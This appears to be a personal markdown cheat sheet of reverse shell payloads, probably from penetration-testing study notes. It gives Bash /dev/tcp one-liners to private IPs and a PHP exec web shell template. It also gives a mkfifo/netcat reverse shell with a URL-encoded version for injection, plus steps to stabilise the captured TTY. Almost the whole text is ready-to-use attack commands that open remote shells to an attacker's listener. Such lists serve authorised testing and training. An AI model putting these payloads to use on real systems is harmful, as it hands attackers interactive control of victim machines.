 ```yaml
---
id: reverseshell
aliases: []
tags: []
---
```



## Bash
`bash -i > /dev/tcp/192.168.49.150/8080 0>&1
	bash -i >& /dev/tcp/192.168.49.150/8080 0>&1`
	
## System:
`system("bash -c \"bash -i >& /dev/tcp/192.168.45.175/445 0>&1\"")`

## Php:
`exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.49.150/8080 0>&1'")`
>**Web:** 
> `<?php exec(\”/bin/bash -c ‘bash -i > /dev/tcp/YOUR_IP/PORT 0>&1’\”); ?>` 
## Python (IppSec method) / stabilize the shell:
> Still in the victim machine
`$ python3 -c 'import pty; pty.spawn("/bin/bash")`
>` Ctrl + Z `  to background the process
`$ stty raw -echo; fg`
(export TERM=xterm)

### If python not available:
`script /dev/null -c /bin/bash` --to be tested
	
### Obfusccated:
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.229 1234 >/tmp/f`
`rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.45.229%201234%20%3E%2Ftmp%2Ff`  --encoded


```
